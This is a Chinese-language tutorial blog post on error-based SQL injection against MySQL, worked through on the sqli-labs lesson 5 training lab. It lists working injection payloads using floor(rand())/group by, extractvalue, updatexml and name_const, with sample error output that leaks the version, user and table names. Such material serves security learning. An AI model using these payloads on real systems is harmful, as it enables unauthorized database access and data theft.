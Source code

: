 ```yaml
---
title: 基于报错的盲注
toc: true
description: 本文通过 sqli-lib lesson 5 来总结归纳基于报错的盲注。
categories:
    - websec
    - sql injection
date: 2019-07-27 15:44:25
tags:
---
```


# 基于报错的盲注简介

利用的是 SQL 语句报错从而回显出我们想要的信息。首先我们需要找到一句能够报错的 SQL 语句（即：在 mysql 数据库 cmd 命令行中执行就会报错的语句，比如：double、BigInt 溢出，重复，还有由于 mysql 设计缺陷造成自身的 bug 等）

报错语句各式各样，千奇百怪，你可以自己去找、去发现。当然，也有大神们给我们留下来的一些财富。感觉这一部分说难也难，说简单也简单。难是因为那些报错有时并不好找，甚至大神们找的报错的原理咱也搞不懂，简单是因为可以直接用大神找的可以报错的语句，有的报错原理不懂就不懂了，不影响咱们报错盲注。

下面附上几个链接，供基于报错的盲注使用：

[MYSQL 注入天书之盲注讲解](https://www.cnblogs.com/lcamry/p/5763129.html)

[大神对一种报错方式原理的探究](https://blog.csdn.net/qq_35544379/article/details/77453019)

典型的报错注入语句去上面链接找就行了。

# 已知的报错注入方式

下面只列出几种自己使用 sqli-lib less 5 复现成功的报错注入方式

## mysql Bug 865 rand()和 group by 同时使用

```php
?id=1' union select 1,count(*),concat(0x23,(要查询的语句),0x23,floor(rand(0)*2))a from information_schema.columns group by a --+
```

0x23 为 # 对应 ASCII 码的 16 进制，用来隔离突出你查询的内容，便于你找到. 可以自己去 ASCII 码表找其他的字符更换，建议使用 16 进制，直接使用字符，可能有时候会被过滤掉。

后面那个 from information_schema.columns 从哪个表查没啥意思，主要是需要只用 group by 让其和 rand() 函数一起这样才能报错。

**我们只需要将我们的子查询语句写在上面 “要查询的语句” 的位置即可。**

返回值不能超过 1 行数据，所以如果里面的 select 获取的是多行数据时要加 limit，经测试我们要写子查询中不能含有 count(), group_concat 语句，即：不能计数 和 只能 limit 0,1 一条一条来了。

举例：

查询所有表明

```php
?id=1' union select 1,count(*),concat(0x23,(select schema_name from information_schema.schemata limit 0,1),0x23,floor(rand(0)*2))a from information_schema.tables group by a --+
```

回显：Duplicate entry '#information_schema#1' for key 'group_key'

然后改成 limit 1,1、limit 2,1 等慢慢测试。

## double 类型溢出报错

暂无成功复现的

## BIGINT 溢出报错

暂无成功复现的

## 利用 xpath 函数

MySQL 5.1.5 版本中添加了对 XML 文档进行查询和修改的函数，分别是 extractvalue()和 updatexml()

经测试 mysql 8.0.12 仍存在这两个报错，这两个报错函数，除了后者多一个参数外，很多特征都是相似的，下面的测试，一般来说，对这两个函数都是适用的。

返回值不能超过 1 行数据，所以如果里面的 select 获取的是多行数据时要加 limit，可使用 group_concat 函数。

### extractvalue 报错

函数解释：
　　 extractvalue()：从目标 XML 中返回包含所查询值的字符串。
　　 EXTRACTVALUE (XML_document, XPath_string);
　　第一个参数：XML_document 是 String 格式，为 XML 文档对象的名称
　　第二个参数：XPath_string (Xpath 格式的字符串)

我们通过控制第二个参数进行报错注入，xml 文档中查找字符位置时，应为/xxx/xxx/xxx 这种格式，当第二个参数格式不正确时，就会产生 Xpath 语法错误，并返回我们输入的错误语句的内容。

```php
?id=1' and extractvalue(1,concat(0x7e,(要查询的语句),0x73)) --+
```

0x7e 同样也是用来区分你的查询结果，改成 0x23，即：#也行，但是不要输入英文字符的十六进制，建议 concat 的第一个不要用来查数据，写个字符分开就好。总之，具体自己测试。

concat 可以再多连接我们 select 查询的信息，也可以使用 concat_ws

```php
?id=1' and extractvalue(1,concat_ws(0x23,0x23,(select version()),(select database()))) --+
```

注意：报错回显有字符限制，测试为 32 个字符。

比如：

```php
?id=1' and extractvalue(1,concat_ws(', ',0x23,(select version()),(select database()),(select user()),(select @@datadir))) --+
```

回显

> XPATH syntax error: '#, 5.5.53, security, root@localh'

### updatexml 报错

UPDATEXML (XML_document, XPath_string, new_value);

第一个参数：XML_document 是 String 格式，为 XML 文档对象的名称
第二个参数：XPath_string (Xpath 格式的字符串)
第三个参数：new_value，String 格式，替换查找到的符合条件的数据

报错原理同 extractvalue() 第二个参数路径格式问题。

```php
?id=1' and updatexml(1,concat(0x7e,(你要查询的语句)),1)--+
```

当然，这里的 concat 也可以连接好多个，比如：

```php
?id=1' and updatexml(1,concat(0x7e,(select version()),0x7e,(select database())),1)--+
```

由于有字符个数限制，一般我使用的有下面两种语句，

1. 通过改变 limit 的第一个参数来一条记录查（而不使用 group_concat 将所有连接成一个字符串）

    ```
    ?id=1' and extractvalue(1,concat_ws(0x23,0x23,(select schema_name from information_schema.schemata limit 0,1))) --+
    ```

    回显：

    > XPATH syntax error: '##information_schema,challenges,'

2. 如果比较少，比如查出库/表的个数比较少之后，可以先试试 group_concat 没准表名很多，全显示出来了。当然，group_concat 里面也有 order by 看着来吧。

    比如这里查出表的个数为 4 个

    ```php
    ?id=1' and extractvalue(1,concat_ws(0x23,0x23,(select count(table_name) from information_schema.tables where table_schema=database()))) --+
    ```

    下面先用 group_concat 查一下看看。

    ```php
    ?id=1' and extractvalue(1,concat_ws(0x23,0x23,(select group_concat(table_name) from information_schema.tables where table_schema=database() limit 0,1))) --+
    ```

    回显

    > XPATH syntax error: '##emails,referers,uagents,users'

    像这样表名都比较短的话，就都查出来了，具体根据实际情况使用吧。

## mysql 重复特性

```php
?id=1' union select 1,2 from (select name_const(version(),1),name_const(version(),1))x --+
```

前后两个 nameconst 的内容要一样。只能用来查询数据库版本，我测试过 database(),user() 等均未成功。

# 补：limit 函数简介

limit 函数的使用有点忘记了，再回顾一下。

SELECT column1, column2 FROM tbl_name LIMIT offset , count;

1. limit 可以有两个参数，第一个参数是开始位置的偏移，从 0 开始，第二个参数是最多显示的记录条数。

2. limit 也可以有一个参数的简写形式： limit n; 相当于 limit 0,n; 从第一条开始，最多显示 n 条

3. SELECT \* FROM products LIMIT 8 OFFSET 0; (在 mysql 5 以后支持这种写法) ，这个指偏移为：0 位置，即开始位置，最多 8 条数据。和第一种参数顺序相反，与第一种功能相同。

# 总结回顾

1. 目前来看，报错注入最佳的语句便是 XPATH 的两个函数（鉴于第二个函数多一个参数），最好的语句便是 XPATH 的 extractvalue 语句了。
